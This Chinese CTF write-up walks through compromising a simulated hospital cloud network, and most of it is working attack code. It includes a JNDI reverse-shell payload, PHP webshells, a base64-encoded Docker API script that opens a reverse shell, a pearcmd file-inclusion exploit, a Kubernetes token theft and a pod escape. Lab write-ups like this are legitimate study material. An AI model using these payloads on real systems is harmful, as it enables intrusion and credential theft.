# 春秋云境-多维挑战-CloudNet-WP-先知社区

> **来源**: https://xz.aliyun.com/news/16309  
> **文章ID**: 16309

---

# CloudNet

部分参考大头师傅的wp，师傅实在太强了

## flag1

```
39.99.148.11:25 open
39.99.148.11:110 open
39.99.148.11:22 open
39.99.148.11:80 open
39.99.148.11:8080 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://39.99.148.11       code:200 len:12592  title:广城市人民医院
[*] WebTitle http://39.99.148.11:8080  code:200 len:282    title:None

```

<https://wiki.timlzh.com/PeiQi-Wiki/wiki/oa/O2OA/O2OA%20invoke%20%E5%90%8E%E5%8F%B0%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CNVD-2020-18740/>

默认密码

```
xadmin/o2oa@2022
```



添加接口:



```
var a = mainOutput(); 
function mainOutput() {
    var aaa = Java.type("javax.naming.InitialContext");
aaa.doLookup("ldap://vpsip:1389/Deserialization/CommonsBeanutils1/ReverseShell/vpsip/250");
};
```

```
java -jar JNDIExploit-2.0-SNAPSHOT.jar -l 1389 -p 8000 -i vpsip
```



点击执行即可拿到shell，后面就是翻配置文件拿到ak-sk

```
root@228d6bc6421b:/opt/o2server# grep -r "password" config
config/externalStorageSources.json:                     "password": "TGdtqwJbBrEMhCCMDVtlHKU=",
config/token.json:  "password": "(ENCRYPT:tOK_FdwfDdZ1_86kEO8X_A)",
config/externalDataSources.json:                "password" :"o2oa@2022",
```

```
"store": {
                "minio": {
                        "protocol": "min",
                        "username": "bxBZOXDlizzuujdR",
                        "password": "TGdtqwJbBrEMhCCMDVtlHKU=",
                        "host": "172.22.18.29",
                        "port": 9000,
                        "name": "o2oa"
                }
        },
```

```
172.22.18.29:9000 open
172.22.18.29:22 open
^C[*] alive ports len is: 2
start vulscan
[*] WebTitle: http://172.22.18.29:9000  code:307 len:43     title:None 跳转url: http://172.22.18.29:9000/minio/
[*] WebTitle: http://172.22.18.29:9000/minio/ code:200 len:2281   title:MinIO Browser
```

minio连接，上传shell，等一会儿其同步后即可拿下外网

## flag2

```
http://39.98.108.142/shell.php

<?php
eval($_POST['chu0']);
?>
```

flag在根目录

```
172.22.18.64:22 open
172.22.18.61:22 open
172.22.18.23:22 open
172.22.18.29:22 open
172.22.18.61:111 open
172.22.18.64:80 open
172.22.18.61:80 open
172.22.18.23:80 open
172.22.18.61:179 open
172.22.18.23:8080 open
172.22.18.29:9000 open
172.22.18.61:9253 open
172.22.18.61:9353 open
172.22.18.23:10000 open
172.22.18.61:10256 open
172.22.18.61:10250 open
172.22.18.61:10249 open
172.22.18.61:10248 open
172.22.18.61:30020 open
172.22.18.61:32686 open
[*] alive ports len is: 20
start vulscan
[*] WebTitle http://172.22.18.23       code:200 len:12592  title:广城市人民医院
[*] WebTitle http://172.22.18.61:10248 code:404 len:19     title:None
[*] WebTitle http://172.22.18.29:9000  code:307 len:43     title:None 跳转url: http://172.22.18.29:9000/minio/
[*] WebTitle http://172.22.18.23:10000 code:400 len:0      title:None
[*] WebTitle https://172.22.18.61:32686 code:200 len:1422   title:Kubernetes Dashboard
[*] WebTitle http://172.22.18.64       code:200 len:785    title:Harbor
[*] WebTitle http://172.22.18.61:10256 code:404 len:19     title:None
[*] WebTitle http://172.22.18.61:10249 code:404 len:19     title:None
[*] WebTitle http://172.22.18.61:9353  code:404 len:19     title:None
[*] WebTitle http://172.22.18.61:9253  code:404 len:19     title:None
[*] WebTitle http://172.22.18.23:8080  code:200 len:282    title:None
[*] WebTitle http://172.22.18.61       code:200 len:8710   title:医院内部平台
[+] InfoScan https://172.22.18.61:32686 [Kubernetes] 
[*] WebTitle http://172.22.18.61:30020 code:200 len:8710   title:医院内部平台
[+] InfoScan http://172.22.18.64       [Harbor] 
[*] WebTitle https://172.22.18.61:10250 code:404 len:19     title:None
[*] WebTitle http://172.22.18.29:9000/minio/ code:200 len:2281   title:MinIO Browser

```

## flag3

<https://zone.huoxian.cn/d/2801-minio-ssrf-docker-api>

最开始拉取远端docker下来测试一下

拉取docker要注意的是，需要改http方式。我这里是通过设置的/etc/docker/daemon.json把https全部叉掉，然后自己添加了一个http，最关键的还是要设置这个socks代理

```
vim /etc/systemd/system/docker.service.d/http-proxy.conf


[Service]
Environment="HTTP_PROXY=socks5://39.99.228.29:10000/"

# 配置后重启服务
systemctl daemon-reload
systemctl restart docker
```

```
docker run -itd --name mysql_container 172.22.18.64/public/mysql:5.6

docker exec -it mysql_container bash
```



测试发现没有wget和curl，这里就用不了<https://zone.huoxian.cn/d/2801-minio-ssrf-docker-api这个里面提供的脚本来发包，我们就用大头师傅的用exec重写的脚本>

```
#!/usr/bin/env bash

# 1
exec 3<>/dev/tcp/172.17.0.1/2375
lines=(
    'POST /containers/create HTTP/1.1'
    'Host: 172.17.0.1:2375'
    'Connection: close'
    'Content-Type: application/json'
    'Content-Length: 133'
    ''
    '{"HostName":"remoteCreate","User":"root","Image":"172.22.18.64/public/mysql:5.6","HostConfig":{"Binds":["/:/mnt"],"Privileged":true}}'
)
printf '%s\r\n' "${lines[@]}" >&3
while read -r data <&3; do
    echo $data
    if [[ $data == '{"Id":"'* ]]; then
        echo $data | cut -c 8-12 > /tmp/id
    fi
done
exec 3>&-

# 2
exec 3<>/dev/tcp/172.17.0.1/2375​
lines=(
    "POST /containers/`cat /tmp/id`/start HTTP/1.1"​
    'Host: 172.17.0.1:2375'
    'Connection: close'
    'Content-Type: application/x-www-form-urlencoded'
    'Content-Length: 0'
    ''
)
printf '%s\r\n' "${lines[@]}" >&3
while read -r data <&3; do
    echo $data
done
exec 3>&-

# 3
exec 3<>/dev/tcp/172.17.0.1/2375
done
exec 3>&-
```

然后把内容写到Dockerfile里面，这样:

```
FROM 172.22.18.64/public/mysql:5.6

RUN echo IyEvdXNyL2Jpbi9lbnYgYmFzaAoKIyAxCmV4ZWMgMzw+L2Rldi90Y3AvMTcyLjE3LjAuMS8yMzc1CmxpbmVzPSgKICAgICdQT1NUIC9jb250YWluZXJzL2NyZWF0ZSBIVFRQLzEuMScKICAgICdIb3N0OiAxNzIuMTcuMC4xOjIzNzUnCiAgICAnQ29ubmVjdGlvbjogY2xvc2UnCiAgICAnQ29udGVudC1UeXBlOiBhcHBsaWNhdGlvbi9qc29uJwogICAgJ0NvbnRlbnQtTGVuZ3RoOiAxMzMnCiAgICAnJwogICAgJ3siSG9zdE5hbWUiOiJyZW1vdGVDcmVhdGUiLCJVc2VyIjoicm9vdCIsIkltYWdlIjoiMTcyLjIyLjE4LjY0L3B1YmxpYy9teXNxbDo1LjYiLCJIb3N0Q29uZmlnIjp7IkJpbmRzIjpbIi86L21udCJdLCJQcml2aWxlZ2VkIjp0cnVlfX0nCikKcHJpbnRmICclc1xyXG4nICIke2xpbmVzW0BdfSIgPiYzCndoaWxlIHJlYWQgLXIgZGF0YSA8JjM7IGRvCiAgICBlY2hvICRkYXRhCiAgICBpZiBbWyAkZGF0YSA9PSAneyJJZCI6IicqIF1dOyB0aGVuCiAgICAgICAgZWNobyAkZGF0YSB8IGN1dCAtYyA4LTEyID4gL3RtcC9pZAogICAgZmkKZG9uZQpleGVjIDM+Ji0KCiMgMgpleGVjIDM8Pi9kZXYvdGNwLzE3Mi4xNy4wLjEvMjM3NQpsaW5lcz0oCiAgICAiUE9TVCAvY29udGFpbmVycy9gY2F0IC90bXAvaWRgL3N0YXJ0IEhUVFAvMS4xIgogICAgJ0hvc3Q6IDE3Mi4xNy4wLjE6MjM3NScKICAgICdDb25uZWN0aW9uOiBjbG9zZScKICAgICdDb250ZW50LVR5cGU6IGFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCcKICAgICdDb250ZW50LUxlbmd0aDogMCcKICAgICcnCikKcHJpbnRmICclc1xyXG4nICIke2xpbmVzW0BdfSIgPiYzCndoaWxlIHJlYWQgLXIgZGF0YSA8JjM7IGRvCiAgICBlY2hvICRkYXRhCmRvbmUKZXhlYyAzPiYtCgojIDMKZXhlYyAzPD4vZGV2L3RjcC8xNzIuMTcuMC4xLzIzNzUKbGluZXM9KAogICAgIlBPU1QgL2NvbnRhaW5lcnMvYGNhdCAvdG1wL2lkYC9leGVjIEhUVFAvMS4xIgogICAgJ0hvc3Q6IDE3Mi4xNy4wLjE6MjM3NScKICAgICdDb25uZWN0aW9uOiBjbG9zZScKICAgICdDb250ZW50LVR5cGU6IGFwcGxpY2F0aW9uL2pzb24nCiAgICAnQ29udGVudC1MZW5ndGg6IDc1JwogICAgJycKICAgICd7IkNtZCI6IFsiL2Jpbi9iYXNoIiwgIi1jIiwgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjIyLjE4LjIzLzE5OTk5IDA+JjEiXX0nCikKcHJpbnRmICclc1xyXG4nICIke2xpbmVzW0BdfSIgPiYzCndoaWxlIHJlYWQgLXIgZGF0YSA8JjM7IGRvCiAgICBlY2hvICRkYXRhCiAgICBpZiBbWyAkZGF0YSA9PSAneyJJZCI6IicqIF1dOyB0aGVuCiAgICAgICAgZWNobyAkZGF0YSB8IGN1dCAtYyA4LTcxID4gL3RtcC9pZAogICAgZmkKZG9uZQpleGVjIDM+Ji0KCiMgNApleGVjIDM8Pi9kZXYvdGNwLzE3Mi4xNy4wLjEvMjM3NQpsaW5lcz0oCiAgICAiUE9TVCAvZXhlYy9gY2F0IC90bXAvaWRgL3N0YXJ0IEhUVFAvMS4xIgogICAgJ0hvc3Q6IDE3Mi4xNy4wLjE6MjM3NScKICAgICdDb25uZWN0aW9uOiBjbG9zZScKICAgICdDb250ZW50LVR5cGU6IGFwcGxpY2F0aW9uL2pzb24nCiAgICAnQ29udGVudC1MZW5ndGg6IDI3JwogICAgJycKICAgICd7IkRldGFjaCI6dHJ1ZSwiVHR5IjpmYWxzZX0nCikKcHJpbnRmICclc1xyXG4nICIke2xpbmVzW0BdfSIgPiYzCndoaWxlIHJlYWQgLXIgZGF0YSA8JjM7IGRvCiAgICBlY2hvICRkYXRhCmRvbmUKZXhlYyAzPiYtCgoK | base64 -d > /tmp/1.sh
RUN chmod +x /tmp/1.sh && /tmp/1.sh
```

把Dockerfile放到我们172.22.18.23这台机器的/var/www/html/Dockerfile下。

因为靶机的缘故，他有时候会刷新index.html，如果存在index.html我们就重定向不成功,所以我们在/tmp下开启一个php服务放上我们的/tmp/index.php

```
php -S 0.0.0.0:8081
```

```
<?php
header('Location: http://127.0.0.1:2375/build?remote=http://172.22.18.23/Dockerfile&nocache=true&t=evil:1', false, 307);
```

然后就可以http发包了，主要的是真实HOST是给172.22.18.29这个发包所以需要设置真实的HOST

```
POST /minio/webrpc HTTP/1.1
Host: 172.22.18.23:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 76

{"id":1,"jsonrpc":"2.0","params":{"token":"Test"},"method":"web.LoginSTS"}

```





## flag4

极致cms，thinkphp的rce漏洞

```
GET /index.php?+config-create+/&l=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=eval($_POST[1]);?>+/var/www/html/shell1.php HTTP/1.1
Host: 172.22.18.61
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4c0847ef686e7c800b472dd0972896eb
Connection: close

```

可以找到配置文件

```
<?php returnarray (
'db' => 
array (
    'host' => 'mysql',
    'dbname' => 'jizhicms',
    'username' => 'root',
    'password' => 'Mysqlroot@!123',
    'prefix' => 'jz_',
    'port' => '3306',
  ),
'redis' => 
array (
    'SAVE_HANDLE' => 'Redis',
    'HOST' => '127.0.0.1',
    'PORT' => 6379,
    'AUTH' => NULL,
    'TIMEOUT' => 0,
    'RESERVED' => NULL,
    'RETRY_INTERVAL' => 100,
    'RECONNECT' => false,
    'EXPIRE' => 1800,
  ),
'APP_DEBUG' => true,
); ?>

```

连接数据库，数据库可以udf提权（从harbor拉取的镜像中的配置文件可以得到），读取k8s的token

```
select load_file("/var/run/secrets/kubernetes.io/serviceaccount/token");
```



利用token成功登录dashboard，创建一个容器挂载逃逸

```
apiVersion: v1
kind: Pod
metadata:
  name: chuling
spec:
  containers:
  - image: 172.22.18.64/hospital/jizhicms:2.5.0
    name: test-container
    volumeMounts:
    - mountPath: /tmp
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```



## flag5

master节点

```
ssh-keygen -t rsa -b 4096
```

写公钥进行逃逸，我这里是挂载到了node1节点上，极致cms也是在node1，所以猜测node1就是61那台机器，尝试连接成功



```
(icmp) Target 172.22.15.45    is alive
(icmp) Target 172.22.15.44    is alive
(icmp) Target 172.22.15.75    is alive
[*] Icmp alive hosts len is: 3
172.22.15.45:80 open
172.22.15.75:22 open
172.22.15.44:22 open
172.22.15.45:22 open
172.22.15.44:111 open
172.22.15.45:111 open
172.22.15.75:111 open
172.22.15.75:179 open
172.22.15.44:179 open
172.22.15.45:179 open
172.22.15.75:2380 open
172.22.15.75:2379 open
172.22.15.75:5000 open
172.22.15.75:6443 open
172.22.15.44:9094 open
172.22.15.45:9253 open
172.22.15.44:9253 open
172.22.15.75:9253 open
172.22.15.75:9353 open
172.22.15.44:9353 open
172.22.15.45:9353 open
172.22.15.75:10259 open
172.22.15.75:10257 open
172.22.15.75:10256 open
172.22.15.44:10256 open
172.22.15.45:10256 open
172.22.15.75:10250 open
172.22.15.44:10250 open
172.22.15.44:10249 open
172.22.15.75:10249 open
172.22.15.44:10248 open
172.22.15.75:10248 open
172.22.15.45:10250 open
172.22.15.45:10249 open
172.22.15.45:10248 open
172.22.15.75:30020 open
172.22.15.44:30020 open
172.22.15.45:30020 open
172.22.15.44:32686 open
172.22.15.45:32686 open
172.22.15.75:32686 open
[*] alive ports len is: 41
start vulscan
[*] WebTitle: http://172.22.15.45:9253  code:404 len:19     title:None
[*] WebTitle: http://172.22.15.75:9353  code:404 len:19     title:None
[*] WebTitle: https://172.22.15.75:32686 code:200 len:1422   title:Kubernetes Dashboard
[*] WebTitle: http://172.22.15.44:10249 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.44:9353  code:404 len:19     title:None
[+] InfoScan:https://172.22.15.75:32686 [Kubernetes] 
[*] WebTitle: http://172.22.15.44:9253  code:404 len:19     title:None
[*] WebTitle: http://172.22.15.45:10248 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.75:9253  code:404 len:19     title:None
[*] WebTitle: http://172.22.15.44:9094  code:404 len:19     title:None
[*] WebTitle: http://172.22.15.44:10248 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.75:5000  code:200 len:0      title:None
[*] WebTitle: http://172.22.15.75:10249 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.75:10256 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.45:9353  code:404 len:19     title:None
[*] WebTitle: http://172.22.15.45:10249 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.44:10256 code:404 len:19     title:None
[*] WebTitle: https://172.22.15.45:10250 code:404 len:19     title:None
[*] WebTitle: https://172.22.15.44:32686 code:200 len:1422   title:Kubernetes Dashboard
[*] WebTitle: https://172.22.15.44:10250 code:404 len:19     title:None
[*] WebTitle: http://172.22.15.75:10248 code:404 len:19     title:None
[*] WebTitle: https://172.22.15.75:6443 code:401 len:157    title:None
[*] WebTitle: https://172.22.15.75:10257 code:403 len:217    title:None
[*] WebTitle: https://172.22.15.75:10250 code:404 len:19     title:None
[+] InfoScan:https://172.22.15.44:32686 [Kubernetes] 
[*] WebTitle: http://172.22.15.45:10256 code:404 len:19     title:None
[*] WebTitle: https://172.22.15.75:10259 code:403 len:217    title:None
```

新的代理 socks5://172.22.18.61:10000

发现存在6443端口，基本可以确定是master节点了，带上我们之前获取的token去尝试控制整个k8s

```
kubectl -s https://172.22.15.75:6443/ --insecure-skip-tls-verify=true --token=eyJhbGciOiJSUzI1NiIsImtpZCI6IlRSaDd3eFBhYXFNTkg5OUh0TnNwcW00c0Zpand4LUliXzNHRU1raXFjTzQifQ.eyJhdWQiOlsiYXBpIiwiaXN0aW8tY2EiXSwiZXhwIjoxNzY2MzMyNTkzLCJpYXQiOjE3MzQ3OTY1OTMsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2YyIsImp0aSI6IjZhMTgzYzRhLTQ1NTgtNDhhMi04Y2Q0LTk4MmVmMjJhY2ZlMyIsImt1YmVybmV0ZXMuaW8iOnsibmFtZXNwYWNlIjoiZGVmYXVsdCIsIm5vZGUiOnsibmFtZSI6Im5vZGUyIiwidWlkIjoiYjAzYjUwZTgtOTBkOS00YjdkLWFmM2EtMGZiMjY3MWUyNjFmIn0sInBvZCI6eyJuYW1lIjoibXlzcWwtNmRmODc2ZDZkYy1mNnFmZyIsInVpZCI6ImNmMzMyYjUxLWM2NDYtNDExNi04ZGRhLTFmMDJiZTAyM2FmZSJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoibXlzcWwiLCJ1aWQiOiJhNTMyNDZlNy0yZDFkLTQxMzMtOGM4OS05ZGNhMWI5YmIxNGYifSwid2FybmFmdGVyIjoxNzM0ODAwMjAwfSwibmJmIjoxNzM0Nzk2NTkzLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6ZGVmYXVsdDpteXNxbCJ9.N0NPwdfTCfxNaQ8HUv8FwThLYOwY2pHQ9fcFzs7VyDgnqBDMjjrViVxOxlaSCPG_WPnLwwJUp5BKS3Dm0gTiHnvP7oA7c0HQ3HSMTk_A9D9Ty5MFyViWSVazon416QyQpW0xRVVIrnufKMPd62vurMel5eaLlYvU-hkQInPOenSAFmpBdoCXCWY93-hPvJ7p4fDwmSZsSdVY7CpZSHlKDWFWXinHGVg5E0FWJYDYmAP61f0rAKEVMpl82YdMcrGXQWljmPwoDe2kS1DSH9l-j9vejn3RkuIW1hyUS7NJv_Sx9CvQkeJvxMFO_LmRUGMy0u8wzE_WgvK50KTN2qOaSQ describe nodes
```

